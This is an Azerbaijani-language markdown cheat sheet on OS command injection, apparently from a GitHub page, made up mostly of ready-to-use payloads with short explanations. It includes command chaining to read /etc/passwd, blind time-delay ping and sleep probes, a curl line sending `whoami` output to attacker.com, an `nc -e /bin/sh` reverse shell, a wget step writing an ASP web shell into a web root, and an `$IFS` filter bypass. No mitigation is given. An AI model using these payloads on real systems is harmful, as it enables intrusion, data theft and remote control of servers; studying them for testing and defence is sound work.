 # OS Command Injection

## 1. OS Command Injection Nədir?
OS Command Injection, istifadəçinin daxil etdiyi məlumatın əməliyyat sistemi əmr sətrində icra olunmasına imkan verir. Bu hücumdan istifadə edərək hücumçular sistemə ziyan vura, məxfi məlumatları oğurlaya və hətta sistem üzərində tam nəzarət əldə edə bilərlər.

## 2. OS Command Injection Nümunələri

### 2.1. Basic OS Command Injection
Bu metodla istifadəçi girişinə daxil edilən əmr, əsas əmrdən sonra icra olunur.
```sh
ping -c 4 127.0.0.1; cat /etc/passwd
```
Yuxarıdakı əmrdə `ping` icra olunur, sonra isə `/etc/passwd` faylı oxunur.

### 2.2. Blind OS Command Injection
Əgər tətbiq nəticəni birbaşa göstərmirsə, ancaq əmrlərin icra olunduğunu yoxlamaq istəyiriksə:
```sh
127.0.0.1 && sleep 10
```
Əgər server cavab vermək üçün 10 saniyə gözləyirsə, bu, tətbiqin əmrləri icra etdiyini göstərir.

### 2.3. Out-of-band OS Command Injection
Məlumatları birbaşa əldə edə bilmiriksə, serverin çıxış məlumatlarını öz serverimizə göndərməyə cəhd edə bilərik:
```sh
curl http://attacker.com/?data=$(whoami)
```
Bu əmrlə `whoami` nəticəsi hücumçunun serverinə göndərilir.

## 3. OS Command Injection Gecikmə Testləri
Tətbiqin əmrləri icra edib-etmədiyini yoxlamaq üçün aşağıdakı testlərdən istifadə etmək olar:
```sh
|| ping -i 30 127.0.0.1 ; x || ping -n 30 127.0.0.1 &
| ping -i 30 127.0.0.1 |
| ping -n 30 127.0.0.1 |
& ping -i 30 127.0.0.1 &
& ping -n 30 127.0.0.1 &
; ping 127.0.0.1 ;
%0a ping -i 30 127.0.0.1 %0a
` ping 127.0.0.1 `
```
Əgər serverin cavabı gecikirsə, deməli, tətbiq OS command injection-a həssasdır.

## 4. OS Command Injection nəticələrinin əldə edilməsi
Əgər əmrlərin icrası təsdiqlənərsə, aşağıdakı üsullarla nəticələri əldə etmək olar:

### 4.1. Birbaşa Nəticələri Görmək
```sh
ls
whoami
```

### 4.2. Çıxış məlumatlarını veb serverə yazmaq
```sh
dir > c:\inetpub\wwwroot\output.txt
```

### 4.3. Out-of-band əlaqə yaratmaq
```sh
nc -e /bin/sh attacker.com 4444
```

### 4.4. Wget vasitəsilə fayl yazmaq
```sh
url=http://wahh-attacker.com/%20-O%20c:\inetpub\wwwroot\scripts\cmdasp.asp
```

## 5. Məkan (Space) Filterlənirsə Alternativ Metodlar
Bəzi command injection hücumları üçün əmrləri düzgün icra etmək üçün boşluq (`space`) daxil etmək lazımdır. Əgər tətbiq boşluqları filtr edirsə və hücum edilən platforma Unix əsaslıdırsa, `$IFS` mühit dəyişənindən istifadə etmək mümkündür:
```sh
echo$IFS"hello"$IFS"world"
```
Burada `$IFS` dəyişəni boşluq əvəzinə istifadə olunur və `echo hello world` əmri uğurla icra olunur.

